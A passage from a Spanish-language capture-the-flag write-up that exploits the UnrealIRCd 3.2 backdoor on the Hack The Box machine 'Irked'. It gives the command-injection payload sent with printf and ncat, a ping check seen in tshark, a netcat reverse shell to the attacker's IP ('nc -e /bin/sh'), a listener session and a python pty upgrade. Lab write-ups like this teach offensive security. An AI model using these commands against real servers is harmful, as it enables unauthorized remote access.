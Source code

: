 Como podemos ver a simple vista, concatena el string "AB; " con el payload encodeado. Esto es fácilmente replicable usando `printf`, por lo que abriré una primera shell donde ejecute la prueba del _backdoor command execution_ y otra donde dejare un sniffer para validar.

**Shell1:**

```text
xbytemx@laptop:~/htb/irked$ printf "AB;ping -c2 10.10.14.141\n" | ncat 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irked.htb 451 AB;ping :You have not registered
ERROR :Closing Link: [10.10.14.141] (Client exited)
^C
xbytemx@laptop:~/htb/irked$
```

**Shell2:**

```text
xbytemx@laptop:~/htb/irked$ tshark -i tun0 'icmp'
Capturing on 'tun0'
    1 0.000000000 10.10.10.117 → 10.10.14.141 ICMP 84 Echo (ping) request  id=0x0486, seq=1/256, ttl=63
    2 1.002996264 10.10.10.117 → 10.10.14.141 ICMP 84 Echo (ping) request  id=0x0486, seq=2/512, ttl=63
^C2 packets captured
xbytemx@laptop:~/htb/irked$
```

Perfecto, con esto podemos preparar una reverse shell para conectarnos:

**Shell1**
```text
xbytemx@laptop:~/htb/irked$ printf "AB; nc -e /bin/sh 10.10.14.141 3001\n" | ncat 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```

Esperamos en el listener:

**Shell2**
```text
xbytemx@laptop:~/htb/irked$ ncat -vnlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.117.
Ncat: Connection from 10.10.10.117:54960.
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
python -c 'import pty; pty.spawn("/bin/bash")'
ircd@irked:~/Unreal3.2$
```

Hemos accedido como el usuario ircd.

# Privesc from irc to djmardov
